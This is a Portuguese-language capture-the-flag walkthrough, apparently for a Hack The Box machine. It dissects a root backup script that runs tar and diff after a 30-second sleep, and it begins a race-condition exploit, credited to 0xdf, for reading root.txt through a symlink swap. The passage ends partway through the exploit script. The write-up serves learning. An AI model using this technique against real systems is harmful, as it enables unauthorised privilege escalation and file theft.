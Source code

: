 Segunda coisa é usar o tar como usuário onuma para zipar tudo que está em $basedir e salva no $tmpfile, ele salva o início do arquivo com um .NUMEROS então eu vou saber qual arquivo que foi zipado

```
# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &
```

Terceiro vai fazer um diretório em /var/tmp/check (após 30 segundos de sleep)

```
/bin/mkdir $check
```

Quarto, vai extrair $tmpfile para esse diretório que foi criado

```
/bin/tar -zxvf $tmpfile -C $check
```

Vai rodar a função intregity_check (é um diff entre o /var/www/html e o arquivo que foi feito o backup), se sair tudo certo vai mover o arquivo tmp para /var/backups/onuma-www-dev.bak se der erro vai logar o erro em /vat/backups/onuma_backup_error.txt

```
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```

Bom, vamos explorar de dois modos esse backuper, o primeiro é fazer um LFI para ler o root.txt e outro pra ganhar um shell de root (que deve sempre ser o objetivo final, ler a flag não quer dizer nada)

### Explorando um LFI nele

A ideia desse exploit (peguei a dica do 0xdf, créditos totais pra ele) é explorar esse sleep que ele tem de 30 segundos e o diff que ele faz... pensando assim, se eu nesse intervalo que ele faz o diff, trocar o arquivo que vai ser feito a verificação por um link para o root.txt, qnd ele der o diff, vai printar a flag... Vamos lá

O script tbm peguei do 0xdf, só passei pra português e acrescentei mais explicações

```
#!/bin/bash

# vamos para um diretório temporário
cd /dev/shm

# setar as duas variáveis com o nome do arquivo que foi feito o bakcup
start=$(find /var/tmp -maxdepth 1 -type f -name ".*")
cur=$(find /var/tmp -maxdepth 1 -type f -name ".*")

# vai ficar dando loop até ser feito outro backup
echo "Waiting for archive filename to change..."
while [ "$start" == "$cur" -o "$cur" == "" ] ; do
    sleep 10;
    cur=$(find /var/tmp -maxdepth 1 -type f -name ".*");
done

```